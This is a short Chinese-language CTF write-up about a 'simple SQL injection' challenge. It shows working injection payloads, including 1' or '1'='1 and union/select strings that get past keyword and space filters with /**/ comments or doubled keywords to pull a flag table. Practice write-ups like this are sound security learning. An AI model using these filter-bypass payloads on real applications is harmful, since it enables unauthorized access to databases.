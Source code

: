 ```yaml
---
title: 实验吧简单的sql注入
description: 简单的题目我简单的做，简单的disco我简单的摇。
tags:
 - ctf-web
categories: 
 - ctf
---
```

# 题目
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql1.png?raw=true)
很简介的题目，嗯！估计题目起名为简单的sql注入是因为界面简洁。
正常操作，我起手就是一套1' or '1'='1 
发现有情况。
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql2.png?raw=true)
。。。。
没过滤？
感jio不对啊，但是细心的我发现，emmmm，输出中的ID是输入框中的回显内容，name是后端处理后的结果。啊，这样啊。所以先要判断到底过滤了什么。
这里将平时会用的到的sql注入关键字都试试，发现过滤了一下
and where table_name information_schema.table 空格
对于这种关键字过滤的情况，可以考虑双重关键字绕过或者```/**/```绕过
在做题的时候，先试了下```/**/```，发现贼好用。
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql3.png?raw=true)
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql4.png?raw=true)
在这里构造```'1 union/**/select/**/database()'```
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql5.png?raw=true)
之后的操作流程可以参照我的另一篇博客
```url
https://crazypyy.github.io/dvwa/2019/06/24/dvwasql/
```
最后的构造语句有两种，一个是双重关键字过滤的
```
1' unionunion  selectselect  flag fromfrom  flag wherewhere  '1'='1
```
还有一个注释符绕过的
```
1' union/**/select/**/flag from/**/flag where/**/ '1'='1
```
最后结果如下
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/ctf-简单的sql注入/sql6.png?raw=true)
